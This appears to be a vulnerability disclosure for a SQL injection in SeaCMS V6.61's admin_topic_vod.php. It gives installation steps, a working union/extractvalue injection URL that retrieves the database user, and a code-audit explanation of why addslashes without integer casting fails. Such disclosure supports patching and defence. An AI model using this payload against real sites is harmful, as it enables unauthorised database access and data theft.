


### SQL Injection Vulnerability in Seacms Content Management System V6.61
1. Download the source code locally on the official website http://www.seacms.net. The environment is php+mysql environment.
2. My local installation path is seacms, so go to http://127.0.0.1/seacms/install/index.php to install.
3. After the installation is complete, modify the background path to adm1n and enter the background http://127.0.0.1/seacms/adm1n.
4. Visit url: http://127.0.0.1/seacms/adm1n/admin_topic_vod.php?tid=-1%20union%20select%20(extractvalue(1,concat(0x7e,(select%20user()),0x7e) )), 2,3,4,5,6,7,8,9, the current user of the database is obtained through SQL injection.

#### Code audit process:
The vulnerability appears on line 13 in admin_topic_vod.php, although lines 5, 6, and 7 filter the parameters: $action=addslashes($_GET[action]);$tid=addslashes($_GET[tid]);$ Vid=addslashes($_GET[vid]);. However, there is no intval processing of numeric parameters or wrapping with quotes when executing SQL statement queries, so that it can still be injected here.

